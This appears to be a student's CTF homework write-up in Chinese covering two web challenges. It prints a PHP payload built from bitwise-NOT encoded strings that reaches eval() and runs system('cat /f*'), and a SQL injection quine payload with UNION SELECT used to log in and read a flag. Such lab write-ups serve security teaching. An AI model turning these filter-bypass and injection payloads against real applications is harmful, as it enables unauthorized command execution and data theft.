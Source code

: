 ###### tags: `ctf`
# Hw5 write_up

## ID
bruce30709
## (#°д°)
本題考的是PHP的Weak type，本題的解法是利用not operator去湊出binary相同的字串，只要最後的比對的binary的值是相同的，就會判定為相同，之後就可以去eval()執行指令。

***要注意的是因為有regular expression的限制 必須使用encode後的字串***

我用方法是以下方法去生成encode的字串，有先用ls去測試，最後用cat印出來。
![](https://i.imgur.com/mLSeJnG.png)

最後送出的payload如下，即可拿到flag，此句相當於執行system('cat /f*')。
```htmlembedded=
https://php.splitline.tw/?%28%23%C2%B0%D0%B4%C2%B0%29=
(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%D5);
```
拿到flag啦~

![](https://i.imgur.com/3wrUhnA.png)


## VISUAL BASIC 2077
本題前半部是使用SQL injection去解，但跟之前不同的是，是比對SQL語句查詢後的值，和輸入post的input去比對，所以要使用助教的hint，用quine的句子去構建SQL語句，我是上網查到的句子，然後在本地端測試，發現要用union把欄位設成一樣才能成功查詢，而且要用\-\-也就是SQL的註解，把後面password的部分註解掉(因為已經有在as那給定值了)，以下是我的payload。

登入後還有一點要注意的就是要使用{flag.flag}去拿class裡面的flag!
```sql=
username:{flag.flag}' UNION SELECT REPLACE(REPLACE('{flag.flag}"
UNION SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")
AS username,"a" AS password--',CHAR(34),CHAR(39)),CHAR(36),'{flag.flag}"
UNION SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")
AS username,"a" AS password--') AS username,'a' AS password--

password:a
```
得到flag了!

![](https://i.imgur.com/EUt7g6T.png)

***助教如果要測試payload用vs2077.txt的，因為md的break字元會造成失敗~***